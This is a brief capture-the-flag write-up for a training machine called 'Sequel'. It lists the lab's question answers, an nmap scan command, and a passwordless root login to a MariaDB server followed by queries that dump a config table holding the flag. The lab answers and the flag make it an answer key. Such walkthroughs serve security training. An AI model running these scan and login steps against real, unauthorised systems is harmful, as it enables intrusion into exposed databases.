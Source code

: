 ```yaml
---
title: Máquina Sequel
published: true
---
```


Jorge Marco Arráez

### [](#header-3)1.  What does the acronym SQL stand for? 

Structured Query Language

### [](#header-3)2.   During our scan, which port running mysql do we find?
```
nmap -A -sCV -vv -T4 -n -oN nmap/ports $IP
```

3306

### [](#header-3)3.  What community-developed MySQL version is the target running? 

MariaDB

### [](#header-3)4.  What switch do we need to use in order to specify a login username for the MySQL service?
```
-u
```
### [](#header-3)5.  Which username allows us to log into MariaDB without providing a password? 

root

### [](#header-3)6.  What symbol can we use to specify within the query that we want to display eveything inside a table?

'*'

### [](#header-3)7.   What symbol do we need to end each query with?  

';'

### [](#header-3)8.  Submit root flag 
```
mysql --host $IP -P 3306 -u root
SHOW DATABASES;
use htb;
SHOW TABLES;
SHOW FIELDS FROM config;
SELECT * from config;
```

| id           | name                    | value        |
|:-------------|:------------------------|:-------------|
| 1            | timeout                 | 60s          |
| 2            | security                | default      |
| 3            | auto_logon              | false        |
| 4            | max_size                | 2M           |
| 5            | flag                    | 7b4bec00d1a39e3dd4e021ec3d915da8 |
| 6            | enable_uploads          | false        |
| 7            | authentication_methods  | radius       |
 
```
flag=7b4bec00d1a39e3dd4e021ec3d915da8
```
